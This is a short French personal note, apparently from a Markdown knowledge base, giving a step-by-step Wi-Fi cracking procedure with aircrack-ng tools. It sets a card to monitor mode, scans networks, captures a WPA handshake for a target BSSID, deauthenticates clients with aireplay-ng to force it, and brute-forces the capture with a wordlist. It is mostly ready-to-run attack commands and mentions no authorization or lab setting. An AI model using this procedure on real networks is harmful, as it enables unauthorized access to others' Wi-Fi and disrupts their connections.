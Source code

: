 ```yaml
---
id: wifi_crack
created_date: 16/02/2023
updated_date: 16/02/2023
type: note
---
```


#  wifi_crack
- **🏷️Tags** :  #02-2023 #wifi #crack #tools 

## 📝 Notes

### Mettre sa carte en mode monitor


```bash
sudo iwconfig wlan1 down
sudo ifconfig wlan1 mode monitor
sudo iwconfig wlan1 up
```

pour tester si sa carte est compatible utiliser la commande :


```bash
sudo aireplay-ng --test wlan1
```

### Faire un scan du réseaux 

- dans un premier temps taper la commande 

```bash
sudo airodump-ng wlan1
```

- récupérer le nom de l'interface réseaux qui vous intéresse
- ainsi que son BSSID et que son numéro de channel ( bien vérifier son type d' ENC ).
### lancer l'attaque
on souhaite ici récupérer le handshake et pour cela on va avoir besoin du BSSID et du channel.

```bash

sudo airodump-ng -c 6 --bssid 44:D4:54:ED:F9:60 -w ~/Bureau wlan1

```

pour accélérer les choses on va lancer en même temps une attaque de Dauth contre la machine. ( sinon c'est gavé long ).

```bash
sudo aireplay-ng -0 20 -a E4:9E:12:89:FE:D4  wlan1
```

une fois que le handshake est obtenue et qu'une certaine quantité de requête aussi passer à l'étape suivante.

### crack et brutforce


```bash
aircrack-ng -a2 -b <BSSID> -w /chemi/du/dico.txt ./chemi/du/fichier/cap/enregistrer.cap

```



## Questions/Thoughts


## 🔗 Links
- 